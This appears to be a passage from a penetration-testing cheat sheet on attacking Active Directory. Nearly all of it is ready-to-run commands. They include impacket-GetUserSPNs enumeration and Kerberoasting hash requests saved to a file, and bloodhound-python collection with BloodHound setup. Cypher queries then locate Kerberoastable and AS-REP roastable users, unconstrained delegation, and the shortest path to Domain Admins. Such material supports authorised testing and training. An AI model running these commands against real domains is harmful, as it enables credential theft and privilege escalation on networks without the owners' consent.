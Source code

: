 ### SPN Enumeration
```bash
# List all SPNs (requires domain creds)
impacket-GetUserSPNs DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP

# Save for Kerberoasting
impacket-GetUserSPNs DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -request -outputfile kerberoast_hashes.txt
```

## BloodHound Collection

### Remote Collection (From Kali)
```bash
# Using bloodhound-python
bloodhound-python -u USERNAME -p 'PASSWORD' -d DOMAIN.LOCAL -ns DC_IP -c All --zip

# Targeted collection (faster)
bloodhound-python -u USERNAME -p 'PASSWORD' -d DOMAIN.LOCAL -ns DC_IP -c DCOnly,Session --zip
```

### Upload to BloodHound
```bash
# Start neo4j
sudo neo4j start

# Start BloodHound
bloodhound

# Upload the .zip files via GUI
# Then run pre-built queries:
# - Find all Domain Admins
# - Shortest path to Domain Admins
# - Find AS-REP Roastable users
# - Find Kerberoastable users
```

### Useful BloodHound Queries
```cypher
# Find users with SPNs
MATCH (u:User {hasspn:true}) RETURN u

# Find AS-REP roastable users
MATCH (u:User {dontrepreauth:true}) RETURN u

# Find computers with unconstrained delegation
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

# Shortest path from owned user to Domain Admin
MATCH p=shortestPath((u:User {owned:true})-[*1..]->(g:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"})) RETURN p
```
